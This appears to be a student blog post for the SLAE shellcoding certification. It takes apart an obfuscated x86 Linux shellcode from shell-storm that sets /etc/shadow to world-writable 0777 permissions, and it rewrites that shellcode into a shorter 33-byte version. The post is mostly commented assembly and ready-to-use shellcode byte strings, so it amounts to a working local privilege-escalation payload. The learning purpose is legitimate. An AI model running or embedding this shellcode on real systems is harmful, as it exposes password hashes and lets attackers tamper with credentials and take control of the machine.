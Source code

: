 # Overview

The original /etc/shadow permissions are set to 640, so this command will reset permissions back to the default on Ubuntu.
```bash
chmod 640 /etc/shadow
```

Here, I chose this shellcode from [http://shell-storm.org/shellcode/files/shellcode-875.php](http://shell-storm.org/shellcode/files/shellcode-875.php). The note says that it is a bit obfuscated, so I thought it would be interesting to see what this means at an instruction level. I will be removing the obfuscation, so the extra credit shouldn't count for making this one shorter, I just wanted to analyze this piece of assembly to understand some techniques for obfuscation.

# Disassembly

Here is the disassembly commented with my quick notes. I see they are obfuscating the string "adow" and using techniques such as `mov ebx, eax; xor eax, ebx` to perhaps obfuscate an `xor eax, eax`.

```x86asm
section .text
global _start

_start: 
    mov ebx, eax
    xor eax, ebx            ; = xor eax, eax
    push dword eax

    ; push obfuscated "adow" string
    mov esi, 0x563a1f3e
    add esi, 0x21354523
    mov dword [esp-4], esi              ; "adow"

    mov dword [esp-8], 0x68732f2f       ; "hs//"
    mov dword [esp-12], 0x6374652f      ; "cte/"
    sub esp, 12
    mov ebx,esp
    
    push word  0x1ff ; permissions 0777
    pop cx

    mov al,0xf  ; chmod()
    int 0x80

```

Shellcode (length: 51 bytes)

```c
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f\x3a\x56\x81\xc6\x23\x45\x35\x21\x89\x74\x24\xfc\xc7\x44\x24\xf8\x2f\x2f\x73\x68\xc7\x44\x24\xf4\x2f\x65\x74\x63\x83\xec\x0c\x89\xe3\x66\x68\xff\x01\x66\x59\xb0\x0f\xcd\x80"
```

# Changes

I start the modifications by just xor'ing and removing the previous mov instruction to set eax to 0x0.

```x86asm
; mov ebx, eax
; xor eax, ebx            ; = xor eax, eax
xor eax, eax
```

Next I remove the deobfuscated string, and change the mov instructions to push instructions in order to get the string "/etc//shadow" onto the stack.

```x86asm
; ; push obfuscated "adow" string
; mov esi, 0x563a1f3e
; add esi, 0x21354523
; mov dword [esp-4], esi              ; "adow"
; mov dword [esp-8], 0x68732f2f       ; "hs//"
; mov dword [esp-12], 0x6374652f      ; "cte/"
; sub esp, 12
push 0x776f6461         ; "woda"
push 0x68732f2f         ; "hs//"
push 0x6374652f         ; "cte/"
```

The rest of the instructions are the same, however, I also added a call to exit() so the shellcode exits gracefully. Since we can assume the chmod returns the value of 0, I will increment it's value to reference the exit syscall.

```x86asm
inc eax
int 0x80
```

# New Disassembly + Shellcode

```x86asm
section .text
global _start

_start: 
    ; mov ebx, eax
    ; xor eax, ebx            ; = xor eax, eax
    xor eax, eax
    
    push dword eax

    ; ; push obfuscated "adow" string
    ; mov esi, 0x563a1f3e
    ; add esi, 0x21354523
    ; mov dword [esp-4], esi              ; "adow"
    ; mov dword [esp-8], 0x68732f2f       ; "hs//"
    ; mov dword [esp-12], 0x6374652f      ; "cte/"
    ; sub esp, 12
    push 0x776f6461         ; "woda"
    push 0x68732f2f         ; "hs//"
    push 0x6374652f         ; "cte/"

    mov ebx,esp
    
    push word  0x1ff ; permissions 0777
    pop cx

    mov al,0xf  ; chmod()
    int 0x80

    inc eax
    int 0x80
```

New Shellcoe (Lenth: 33)

```c
"\x31\xc0\x50\x68\x61\x64\x6f\x77\x68\x2f\x2f\x73\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\x68\xff\x01\x66\x59\xb0\x0f\xcd\x80\x40\xcd\x80"
```




# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly

